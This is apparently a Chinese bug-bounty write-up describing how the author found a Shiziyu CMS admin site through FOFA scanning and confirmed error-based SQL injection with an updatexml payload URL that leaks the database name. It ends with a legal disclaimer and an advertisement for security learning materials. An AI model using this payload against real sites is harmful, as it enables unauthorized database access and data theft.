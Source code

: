 # 原创
：  实战SRC | 某站点后台管理系统SQL注入

# 实战SRC | 某站点后台管理系统SQL注入

本文由掌控安全学院 - 会唱会跳会敲键盘 投稿

```
对于edu来说，是新人挖洞较好的平台，本次记录一次走运的捡漏

```

0x01 前景<br/> 在进行fofa盲打站点的时候，来到了一个后台管理处看到集市二字，应该是edu站点<br/>  

确认目标身份【归属】（使用的quake进行然后去ipc备案查询）<br/>  

<br/>  

<br/> 网站后台很像cms搭建的，在查看网站时发现

```
/seller.php?s=/Public/login

```

典型的狮子鱼cms的特征！！！<br/> 直接去百度一手，发现有个SQL注入还有其他的漏洞，打算一个一个尝试看看<br/>  

<br/> 0x02 尝试挖掘

直接拼接payload，尝试报错注入出数据库名：

```
https://www.xxx.com/index.php?s=api/goods_detail&amp;goods_id=1%20and%20updatexml(1,concat(0x7e,database(),0x7e),1)

```

OK，成功爆破出数据库名，SQL注入一枚到手~

申明：本文所分享内容仅用于网络安全技术讨论，切勿用于违法途径，

所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法.

## ** 免费领取安全学习资料包！**<img alt="" height="768" src="https://img-blog.csdnimg.cn/direct/d0981bfbca414b8dbfe82a64c9735735.png" width="1024"/>

渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/direct/5654063fe7764156be0ce6d5b6349d37.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/direct/213f47b964f0417ca78367aad7b039b8.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/direct/3a39449789714d22a074c7bea244b94f.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/direct/82c8b5bfed984be497589b39a3738960.png" width="665"/>

应急响应笔记

学习路线
